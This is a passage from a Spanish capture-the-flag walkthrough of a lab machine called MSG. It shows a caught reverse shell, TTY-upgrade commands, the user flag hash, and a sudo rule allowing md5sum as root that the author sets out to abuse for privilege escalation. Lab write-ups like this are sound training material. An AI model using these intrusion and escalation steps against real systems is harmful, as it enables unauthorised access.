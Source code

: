 Y si volvemos a donde tenemos la escucha veremos esto:

```
listening on [any] 7755 ...
connect to [192.168.5.50] from (UNKNOWN) [192.168.5.56] 50395
whoami
messagemaster
```

Veremos que ha funcionado, por lo que sanitizaremos la `shell`.

### Sanitización de shell (TTY)

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

Por lo que vamos a leer la `flag` del usuario.

> User.txt

```
ea86091a17126fe48a83c1b8d13d60ab
```

## Escalate Privileges

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for messagemaster on MSG:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User messagemaster may run the following commands on MSG:
    (ALL) NOPASSWD: /bin/md5sum
```

Vemos que podemos ejecutar el binario `md5sum` como el usuario `root` podemos aprovechar esta vulnerabilidad para calcular el `hash` `MD5` de cualquier archivo del sistema como `root` por lo que vamos a investigar a ver cual nos puede interesar.

Si investigamos un poco veremos el siguiente archivo en esta ruta.
